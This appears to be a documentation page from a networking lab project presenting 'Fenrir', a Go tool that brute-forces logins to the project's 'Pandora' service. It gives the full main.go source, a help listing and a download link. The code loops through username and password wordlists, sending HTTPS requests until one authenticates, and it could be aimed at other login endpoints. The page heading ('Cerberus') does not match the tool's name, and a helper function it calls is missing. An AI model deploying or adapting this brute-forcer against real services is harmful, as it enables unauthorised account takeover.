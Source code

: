 # Cerberus

=== "Description"
    Fenrir is a brute-forcing tool designed specifically to target the Pandora service as part of this project. It operates by sending HTTPS requests with credentials sourced from a dictionary. The tool halts either upon successful authentication with valid credentials or after exhausting all entries in the wordlist without success.

=== "Code"
    ```go linenums="1" title="main.go"
    package main
    import (
        "bufio"
        "bytes"
        "crypto/tls"
        "flag"
        "fmt"
        "log"
        "net/http"
        "os"
        "strings"
        "time"
    )
    func main() {
        target := flag.String("t", "", "Target host (IP or domain)")
        port := flag.Int("s", 0, "Port number for the Pandora server")
        users := flag.String("u", "", "File path to the list of usernames")
        passwords := flag.String("p", "", "File path to the password dictionary")
        flag.Parse()
        if *target == "" || *port == 0 || *users == "" || *passwords == "" {
            fmt.Println("Error: Missing required flags.")
            flag.Usage()
            os.Exit(1)
        }
        userDict, err := os.Open(*users)
        if err != nil {
            log.Fatal(err)
        }
        defer userDict.Close()
        userScanner := bufio.NewScanner(userDict)
        passwordsDict, err := os.Open(*passwords)
        if err != nil {
            log.Fatal(err)
        }
        defer passwordsDict.Close()
        body := []byte(`"secret-id":"secretID"`)
        for userScanner.Scan() {
            user := strings.TrimSpace(userScanner.Text())
            passwordsDict.Seek(0, 0)
            passwordScanner := bufio.NewScanner(passwordsDict)
            for passwordScanner.Scan() {
                password := strings.TrimSpace(passwordScanner.Text())
                re, err := sendHTTPRequest("GET", fmt.Sprintf("https://%s:%d/secret", *target, *port), user, password, string(body))
                if err == nil {
                    if re.StatusCode != 401 && re.StatusCode != 500 {
                        log.Printf("Account Found: Username: %s, Password: %s (Success)\n", user, password)
                        break
                    } else {
                        log.Printf("Account Check - Username: %s, Password: %s\n", user, password)
                    }
                }
            }
        }
    }
    ```
=== "Help"
    ```
    ./Fenrir [options]
    Options
    -p string
        Specifies the file path to the password dictionary.
    -s int
        Defines the port number for the Pandora server.
    -t string
        Specifies the target host (IP address or domain).
    -u string
        Provides the file path to the list of usernames.
    ```
=== "Download"
    [![GitHub](https://img.shields.io/badge/Source-GitHub-blue)](https://github.com/MustafaAbdulazizHamza/packet-lab/tree/master/Golang/Fenrir)